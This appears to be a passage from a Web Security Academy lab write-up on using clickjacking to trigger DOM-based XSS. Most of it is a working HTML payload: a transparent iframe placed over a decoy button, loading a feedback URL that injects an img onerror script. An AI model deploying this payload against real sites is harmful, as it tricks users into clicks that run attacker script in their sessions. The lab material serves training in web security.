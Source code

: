 ![img](images/Exploiting%20clickjacking%20vulnerability%20to%20trigger%20DOM-based%20XSS/6.png)


So we can execute the attack with a payload like this:

```
<head>
	<style>
		#target_website {
			position:relative;
			width:600px;
			height:600px;
			opacity:0.1;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:600px;
			height:600px;
			z-index:1;
			}
		#btn {
			position:absolute;
			top:440px;
			left:70px;
		}
	</style>
</head>
<body>
	<div id="decoy_website">
	<button id="btn">Click me</button>
	</div>
	<iframe id="target_website" src="https://0a9500e703977b7c812c80ce00300073.web-security-academy.net/feedback?name=%3C/span%3E%3Cimg%20src=x%20onerror=print()%3E%3Cspan%3E&email=a@a.com&subject=a&message=a">
	</iframe>
</body>
```
